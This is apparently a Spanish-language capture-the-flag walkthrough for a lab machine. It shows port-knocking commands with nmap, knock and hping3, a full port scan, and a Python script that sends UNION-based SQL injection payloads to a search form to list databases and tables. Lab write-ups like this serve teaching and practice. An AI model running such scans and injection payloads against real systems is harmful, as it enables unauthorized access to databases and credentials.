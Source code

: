 Formas de golpear puertos:

```
NMAP
❯ nmap -p7469,8475,9842 -r -T5 -PN 192.168.0.114
Starting Nmap 7.80 ( https://nmap.org ) at 2021-11-11 11:23 -05
Nmap scan report for 192.168.0.114
Host is up (0.0029s latency).                                  
                                                               
PORT     STATE  SERVICE                                        
7469/tcp closed unknown                                        
8475/tcp closed unknown      
9842/tcp closed unknown

KNOCK
❯ knock 192.168.0.114 7469 8475 9842

HPING3
❯ hping3 -S 192.168.0.114 -p 7469 -c 1; hping3 -S 192.168.0.114 -p 8475 -c 1; hping3 -S 192.168.0.114 -p 9842 -c 1  

```

despues de golpear los puertos tenemos visibilidad en el puerto 22 (ssh)

```
❯ sudo nmap --min-rate 5000 -p- -n -Pn -sS 192.168.0.114
[...]
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Fuerza bruta SSH

Enumerando las otras tablas encontramos uno de usuarios y contraseñas.  
El siguiente script dumpea los registros de otros usuarios

```
#!/usr/bin/python3

import requests, re, pdb, tabulate
import urllib.parse

url = "http://192.168.0.114/results.php"
burp = {"http" : "http://127.0.0.1:8080"}

def DDBB():
	data_post = {
		"search" : "' UNION SELECT schema_name,2,3,4,5,6 FROM information_schema.schemata-- -"
		}

	s = requests.post(url, data=data_post)
	db = re.findall(r"ID: (.*?)<br",s.text)
	print(db)

def tables(database):
	data_post = {
		"search" : "' UNION SELECT table_name,2,3,4,5,6 FROM information_schema.tables where table_schema=\"{}\"-- -".format(database)
		}

	s = requests.post(url,data=data_post)
	tables = re.findall(r"ID: (.*?)<br",s.text)
	print(tables)

```
